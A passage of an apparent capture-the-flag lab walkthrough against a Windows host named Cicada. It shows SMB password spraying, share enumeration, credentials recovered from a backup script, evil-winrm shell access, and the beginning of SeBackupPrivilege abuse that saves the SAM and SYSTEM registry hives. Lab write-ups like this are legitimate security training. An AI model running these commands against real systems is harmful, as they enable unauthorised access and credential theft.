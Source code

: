 Store usernames in `users.txt`.

Perform password spraying with the found password:  
```bash
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

**Valid Credentials Found:**  
- **Username:** michael.wrightson  
- **Password:** Cicada$M6Corpb*@Lp#nZp!8

## 4. Further Enumeration

Check additional SMB shares:  
```bash
smbmap -H 10.10.11.35 -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

**Found:** Access to `DEV` share.

Access the `DEV` share:  
```bash
smbclient \\\\10.10.11.35\\DEV -U "michael.wrightson"
```

**Files Found:**  
- `Backup_script.ps1` (contains credentials for `emily.oscars`: `Q!3@Lp#M6b*7t*Vt`)

## 5. Gaining Shell Access

Login using `evil-winrm`:  
```bash
evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```

Navigate to Desktop and capture the user flag:  
```bash
cd Desktop
type user.txt
```

## 6. Privilege Escalation

Check privileges:  
```bash
whoami /priv
```

**Finding:** `SeBackupPrivilege` enabled.

Exploit `SeBackupPrivilege` to extract registry hives:  
```bash
cd c:\
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system
```

